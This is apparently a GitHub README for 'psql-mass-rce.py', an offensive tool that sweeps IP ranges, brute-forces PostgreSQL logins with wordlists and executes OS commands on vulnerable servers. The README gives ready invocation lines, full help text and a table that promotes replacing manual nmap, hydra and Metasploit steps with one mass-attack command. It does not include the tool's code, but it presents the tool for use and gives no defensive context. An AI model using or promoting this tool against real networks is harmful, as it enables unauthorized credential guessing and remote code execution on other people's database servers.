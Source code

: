 Conviniently invoke RCE on PostgreSQL servers in network
=======

How does it work?
--------
Few examples to give you an idea (any number of any targets are supported):   
`./psql-mass-rce.py 192.168.0.100-150 ./test.gnmap --port 5433`   
`./psql-mass-rce.py 192.168.0.100/31 10.10.10.10 --passfile rockyou.txt`    


Scripts does the following:
1. Checks if port is open
2. Bruteforces credentials (using built-in dictionary or user files)
3. Determines PostgreSQL version and OS
4. Executes RCE if database user has enough rights

Live hosts with good credentials are saved to session file. After reconnaissance you may want to run RCE on those:   
`./psql-mass-rce.py --saved --command 'whoami'`   

Full help:
--------
```
psql-mass-rce v0.1

Usage: psql-mass-rce.py targets [--userfile USERFILE] [--passfile PASSFILE]
               [--command COMMAND] [--port PORT] [--saved]

Necessary arguments:
  targets              Accepts any number of these: IP, network, or .gnmap file

Optional arguments:
  -h, --help           show this help message and exit
  --userfile USERFILE  File with a list of users
  --passfile PASSFILE  File with a list of passwords
  --command COMMAND    Command to execute on a target machine
  --port PORT          Port to connect
  --saved              Work on targets from saved session file
```

Which PostgreSQL versions can give me RCE?
--------
PostgreSQL verions 9 and 10 (version 8 is in development).


Any zero-days inside?
--------
Not yet. [Technique](http://dsrbr.blogspot.ru/2015/04/os-command-execution-in-postgresql-93.html) was published almost 3 years ago.


Will it save my time?
--------
Definately yes.

| Before 	| After 	|
|--------	|-------	|
| 1. run nmap for port scanning<br/>2. run patator/hydra to bruteforce credentials<br/>3. run psql binary to connect and check version<br/>4. copy-paste payloads, or launch MSF `postgres_payload` manually at each host.     | ./psql-mass-rce.py 10.1.1.0/24 |


Dependencies (just in case): `pip3 install argparse psycopg2 netaddr`
